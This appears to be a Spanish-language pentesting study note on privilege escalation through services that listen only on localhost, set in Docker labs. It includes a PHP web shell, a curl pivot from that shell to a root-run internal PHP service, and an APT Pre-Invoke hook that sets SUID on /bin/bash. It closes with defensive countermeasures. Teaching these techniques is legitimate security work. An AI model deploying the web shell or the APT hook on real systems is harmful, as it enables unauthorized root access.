

# 🔒 Abuso de Servicios Internos del Sistema

## 📋 Concepto Fundamental

> [!info] **¿Qué es el Abuso de Servicios Internos?** El abuso de servicios internos consiste en explotar servicios que se ejecutan únicamente en el localhost (127.0.0.1) de un sistema comprometido. Estos servicios suelen estar **ocultos del exterior** por reglas de firewall, pero pueden ser **accesibles internamente** y ejecutarse con **privilegios elevados**.

### 🎯 Características Clave

- **Invisibles desde el exterior**: No aparecen en escaneos externos con nmap
- **Ejecución privilegiada**: Muchos corren como root o con permisos especiales
- **Acceso post-compromiso**: Requieren acceso previo al sistema
- **Vector de escalación**: Pueden usarse para privilege escalation

---

## 🛠️ Metodología de Explotación


```mermaid
graph TD
    A[Reconocimiento Inicial] --> B[Acceso al Sistema]
    B --> C[Enumeración Interna]
    C --> D[Descubrimiento de Servicios]
    D --> E[Explotación de Servicios Internos]
    E --> F[Escalación de Privilegios]
    
    style A fill:#e1f5fe
    style E fill:#fff3e0
    style F fill:#f3e5f5
```

---

## 🔍 Caso Práctico #1: Servicio PHP Interno

### 📋 Escenario

> [!example] **Setup del Laboratorio**
> 
> - Servidor Apache en Docker
> - Servicio PHP interno ejecutándose como root
> - Puerto 8000 solo en localhost

### 🚀 Preparación del Entorno

1. **Montar servidor Apache** - Ver: [[Montar Servidor Apache - Docker]]

2. **Configurar servicio PHP interno:**

```bash
# Dentro del contenedor (ejecutado por root)
php -S 127.0.0.1:8000
```

3. **Crear archivo de ejecución remota:**

```php
<?php system($_GET['cmd']); ?>
```

> [!tip] **Ubicación**: Crear este archivo tanto en Apache como en el servicio PHP interno


### 🔎 Fase de Reconocimiento

#### Escaneo Externo (Fallará)

```bash
nmap -p8000 --open -T5 -v -n <ip_victima>
```

> [!warning] **Resultado Esperado** El puerto 8000 **NO aparecerá** porque solo escucha en localhost

#### Enumeración Interna

Una vez obtenido acceso al sistema:

```bash
# Enumerar puertos internos con netstat
netstat -nat
```

**Ejecución vía web shell:**

```http
http://<ip_victima>/cmd.php?cmd=netstat -nat
```

### ⚡ Explotación

> [!example] **Comando de Explotación**
> 
> ```http
> http://<ip_victima>/cmd.php?cmd=curl http://localhost:8000/cmd.php?cmd=whoami
> ```

#### 🎯 Resultado Esperado

```bash
root
```

> [!success] **¡Éxito!** El servicio PHP interno responde como **root**, confirmando la escalación de privilegios.

---

## 🔍 Caso Práctico #2: Abuso de APT con Systemd

### 📋 Escenario

> [!example] **Setup del Laboratorio**
> 
> - Container Ubuntu con systemd
> - Directorio `/etc/apt/apt.conf.d/` escribible por otros usuarios
> - Timer de systemd ejecutando actualizaciones automáticas

### 🚀 Preparación del Entorno

1. **Crear container Ubuntu:**

```bash
docker run --rm -dit -p80:80 --name ubuntuServer ubuntu
```

1. **Acceder al container:**

```bash
docker exec -it ubuntuServer bash
```

1. **Configurar permisos vulnerables:**

```bash
chmod o+w /etc/apt/apt.conf.d/
```

1. **Montar servicio systemd** - Ver: [[Montar Servicio systemd]]


### 🔎 Fase de Reconocimiento

#### Listar Timers Activos

```bash
systemctl list-timers
```

> [!info] **Buscar**: `servicio.timer`

#### Localizar Timer

```bash
find / -name servicio.timer 2>/dev/null
```

### ⚡ Explotación: APT Pre/Post Invoke

> [!tip] **Concepto Clave** APT permite ejecutar comandos antes y después de las actualizaciones mediante **Pre-Invoke** y **Post-Invoke** hooks.

#### Crear Payload Malicioso

```bash
# Crear archivo: /etc/apt/apt.conf.d/99servicio
APT::Update::Pre-Invoke { "chmod u+s /bin/bash"; };
```

> [!warning] **¿Qué hace este payload?** Asigna el **bit SUID** a `/bin/bash` cuando se ejecuta una actualización de APT.

### ⏰ Temporización del Ataque

```mermaid
gantt
    title Timeline del Ataque
    dateFormat X
    axisFormat %s
    
    section Preparación
    Crear payload malicioso    :done, prep, 0, 5s
    
    section Espera
    Timer automático (30s)     :active, wait, 5s, 35s
    
    section Verificación
    Comprobar SUID en bash     :verify, 35s, 40s
```

#### Verificación del Éxito

```bash
# Esperar 30 segundos y verificar
ls -la /bin/bash
```

> [!success] **Resultado Exitoso**
> 
> ```bash
> -rwsr-xr-x 1 root root 1113504 Jun 15 2022 /bin/bash
> ```
> 
> El bit **s** indica que bash ahora tiene SUID.

---

## 📊 Tabla Comparativa de Casos

|Aspecto|Caso #1 (PHP)|Caso #2 (APT/Systemd)|
|---|---|---|
|**Vector**|Servicio web interno|Timer de sistema|
|**Privilegios**|root directo|SUID en bash|
|**Detección**|netstat|systemctl list-timers|
|**Tiempo**|Inmediato|~30 segundos|
|**Persistencia**|No|Sí (hasta reboot)|

---

## 🛡️ Contramedidas y Detección

> [!warning] **Medidas Preventivas**

### Para Administradores

- **Principio de menor privilegio**: No ejecutar servicios como root innecesariamente
- **Firewall interno**: Filtrar conexiones localhost cuando sea posible
- **Auditoría regular**: Monitorear servicios internos activos
- **Permisos estrictos**: Proteger directorios críticos como `/etc/apt/apt.conf.d/`

### Para Blue Team

- **Monitoreo de netstat**: Alertas por servicios no autorizados en localhost
- **File integrity monitoring**: Cambios en archivos de configuración de APT
- **Process monitoring**: Servicios ejecutándose con privilegios no justificados

---

## 🔗 Referencias y Enlaces

- [[netstat]] - Comando para enumerar conexiones de red
- [[Montar Servidor Apache - Docker]] - Setup del laboratorio
- [[Montar Servicio systemd]] - Configuración de timers
- [[systemctl]] - Gestión de servicios systemd
- [[find]] - Búsqueda de archivos en el sistema

---

> [!tip] **Recordatorio** Esta técnica es especialmente efectiva en entornos dockerizados y sistemas con servicios automatizados mal configurados.